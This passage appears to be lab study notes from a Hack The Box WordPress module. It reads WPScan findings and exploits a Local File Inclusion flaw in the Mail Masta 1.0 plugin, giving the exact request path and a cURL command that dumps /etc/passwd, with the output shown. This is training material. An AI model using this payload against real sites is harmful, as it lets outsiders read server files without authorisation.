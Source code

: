 ```shell
<SNIP>
[+] roger
<SNIP>
```

WPScan uses various passive and active methods to determine versions and vulnerabilities, as shown in the scan output above.

# Exploiting a Vulnerable Plugin

## Leveraging WPScan Results

The report generated by WPScan tells us that the website uses an older version of WordPress (5.3.2) and an outdated theme called `Twenty Twenty`. WPScan identified two vulnerable plugins, `Mail Masta 1.0` and `Google Review Slider`. This version of the `Mail Masta` plugin is known to be vulnerable to SQL Injection as well as Local File Inclusion (LFI). The report output also contains URLs to PoCs, which provide information on how to exploit these vulnerabilities.

Let's verify if the LFI can be exploited based on this exploit-db [report](https://www.exploit-db.com/exploits/40290/). The exploit states that any unauthenticated user can read local files through the path: `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`.

#### LFI using Browser

```url
view-source:http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

![](Pasted%20image%2020250331125802.png)

We can also validate this vulnerability using cURL on the command line.

#### LFI using cURL

```shell
gitblanc@htb[/htb]$ curl http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
```
